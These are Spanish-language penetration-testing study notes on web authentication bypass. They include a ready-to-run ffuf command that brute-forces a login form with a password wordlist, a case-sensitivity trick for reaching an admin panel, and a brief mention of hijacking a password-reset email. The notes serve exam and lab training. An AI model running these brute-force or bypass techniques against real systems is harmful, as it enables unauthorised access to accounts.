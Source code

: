 ## Authentication bypass
### Bruteforce  

Teniendo una lista de usuarios válidos [Explicación](https://github.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/blob/main/reco/recousersweb.md), podemos intentar fuerza bruta a las contraseñas.  
```ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.144.67/customers/login -fc 200 ```
De la misma manera, se debe interceptar la peticion por burpsuite y analizar que campos debemos modificar para que funcione el ataque.  

### Fallos en el código

#### Ejemplo 1 (facil y poco probable)
Si para acceder al panel de admin, nos encontramos que el código tiene esto:   
``` if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```

=== admin, significa que al ser escrito tal cual, no dejará entrar. sin embargo si escribimos /aDMin (por ejemplo) podriamos colarnos al panel de administración sin credenciales.  

#### Ejemplo 2 (Envío de reseteo de contraseña a un email tercero)  

En el campo de reseteo de contraseña, es posible que nos pida solamente el email, o el usuario, o ambas. pero si tenemos esta información, se puede intentar redirigir este email.



